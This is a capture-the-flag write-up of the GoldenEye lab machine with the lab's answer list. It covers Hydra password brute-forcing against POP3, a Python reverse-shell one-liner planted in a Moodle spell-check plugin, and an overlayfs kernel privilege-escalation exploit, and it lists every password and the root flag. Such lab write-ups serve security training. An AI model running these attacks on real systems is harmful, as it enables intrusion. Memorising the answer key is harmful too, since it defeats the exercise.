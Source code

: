 # Golden-Eye-Writeup by Brandon Gerber 

Task 1: Intro and Enumeration

I began by scanning the target machine using nmap to identify open ports:
nmap -n -v -sT -p- -T5 <IP>
This revealed 4 open ports. 

I decided to check the source code of the website found some comments:
// contacting a user named boris
// left encoded password
// mentioned another person named Natalya
Based on the context, I assumed "boris" was a username, 
and I found an encoded password in the comments: &#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
Using an HTML decoder, I decoded it to:InvincibleHack3r
Know learning, i could have just used dcode<pw>

Task 2: It’s Mail Time
Next, I tried logging in via telnet to the POP3 service on port 55007, but the credentials failed. The next hint was to use Hydra to crack the password:
hydra -l boris -P <path_to_password_list> <IP> -s 55007 pop3
This successfully found the password:
Password: secret1!

I then logged in via telnet:
telnet <IP> 55007
user boris
pass secret1!
After logging in, I listed and retrieved the emails to retrieve the emails i used retr<email num>, revealing another username, "Xenia."

Using Hydra again, I cracked Xenia’s password:
hydra -l Xenia -P <path_to_password_list> <IP> -s 55007 pop3
The password was bird. After logging into her account, I found her new password: RCP90rulez. 

This led me to the next hint regarding the severnaya-station.com website. I added it to my /etc/hosts file to access it:
make sure to nano /etc/hosts and add <IP> severnaya-station.com
I visited http://severnaya-station.com/gnocertdir/ and used Xenia's credentials to log in: (this was after attemping boris)
user: Xenia
pass: RCP90rulez!
Under "My Profile," I found a message from Dr. Doak revealing his creds

hydra -l Doak -P <path_to_wordlist> <IP> -s 55007 pop3
Password: goat

Using telnet again, I found his password in an email: 4England!

Task 3: Gaining Access
Logging in with Dr. Doak's credentials (dr_doak, 4England!), I explored his private files and discovered a file named s3cret.txt, which mentioned the location of an image at /dir007key/for-007.jpg. I downloaded the image using wget and extracted hidden information with exiftool. Inside the description field,

I found a Base64 string:
eFdpbnRlckE50TV4IQ==
Decoded, it revealed: xWinter1995x!

user: admin
pass: xWinter1995x!

Task 4: Exploitation
I created a reverse shell using Python:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>", <Port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])'
I inserted this script into the spell check plugin on the website,

then started a listener using pwncat:
pwncat --listen -p 9999
This granted me a shell on the system. The kernel version was 3.13.0-32-generic, and I found an overlayfs privilege escalation exploit (https://www.exploit-db.com/exploits/37292).

I compiled and executed the exploit:
upload exploit.c /tmp
cd /tmp
cc exploit.c -o exploit
./exploit
This gave me root access. I navigated to the /root directory and found the final flag:

cat flag.txt
Root flag: 568628e0d993b1973adc718237da6e93

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
ANSWERS 
Answer the questions below
First things first, connect to our network and deploy the machine.

No answer needed
Correct Answer
Use nmap to scan the network for all ports. How many ports are open?

4
Correct Answer
Hint
Take a look on the website, take a dive into the source code too and remember to inspect all scripts!

No answer needed
Correct Answer
Who needs to make sure they update their default password?

boris
Correct Answer
Whats their password?

InvincibleHack3r
Correct Answer
Now go use those credentials and login to a part of the site.

No answer needed
Correct Answer

Task 2:
Onto the next steps.. 

Answer the questions below
Take a look at some of the other services you found using your nmap scan. Are the credentials you have re-usable? 

No answer needed
Correct Answer
If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra?Whats their new password?

secret1!
Correct Answer
Hint
Inspect port 55007, what services is configured to use this port?

telnet
Correct Answer
Login using that service and the credentials you found earlier.

No answer needed
Correct Answer
What can you find on this service?

emails
Correct Answer
What user can break Boris' codes?

natalya
Correct Answer
Using the users you found on this service, find other users passwords

No answer needed
Correct Answer
Keep enumerating users using this service and keep attempting to obtain their passwords via dictionary attacks.

No answer needed
Correct Answer
Hint

Task 3: 
Enumeration really is key. Making notes and referring back to them can be lifesaving. We shall now go onto getting a user shell.

Answer the questions below
If you remembered in some of the emails you discovered, there is the severnaya-station.com website. To get this working, you need up update your DNS records to reveal it.

If you're on Linux edit your "/etc/hosts" file and add:

<machines ip> severnaya-station.com

If you're on Windows do the same but in the "c:\Windows\System32\Drivers\etc\hosts" file

No answer needed
Correct Answer
Once you have done that, in your browser navigate to: http://severnaya-station.com/gnocertdir

No answer needed
Correct Answer
Try using the credentials you found earlier. Which user can you login as?

xenia
Correct Answer
Have a poke around the site. What other user can you find?

doak
Correct Answer
What was this users password?

goat
Correct Answer
Hint
Use this users credentials to go through all the services you have found to reveal more emails.

No answer needed
Correct Answer
What is the next user you can find from doak?

dr_doak
Correct Answer
Hint
What is this users password?

4England!
Correct Answer
Take a look at their files on the moodle (severnaya-station.com)

No answer needed
Correct Answer
Download the attachments and see if there are any hidden messages inside them?

No answer needed
Correct Answer
Hint
Using the information you found in the last task, login with the newly found user.

No answer needed
Correct Answer
As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat.

Take a look into Aspell, the spell checker plugin.

No answer needed
Correct Answer
Hint

Task 4: 
Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

Answer the questions below
Download the linuxprivchecker to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

Download the linuxprivchecker file locally
Navigate to the file on your file system
Do: python -m SimpleHTTPServer 1337 (leave this running)
On the VM you can now do: wget <your IP>/<file>.py
OR

Enumerate the machine manually.

No answer needed
Correct Answer
Whats the kernel version?

3.13.0-32-generic
Correct Answer
Hint
This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
Make su on overlayfs world writable without changing the owner
Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
Execute the modified su binary
You can download the exploit from here: https://www.exploit-db.com/exploits/37292

No answer needed
Correct Answer
Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key!

What development tools are installed on the machine?
No answer needed
Correct Answer


What is the root flag?
568628e0d993b1973adc718237da6e93
Correct Answer
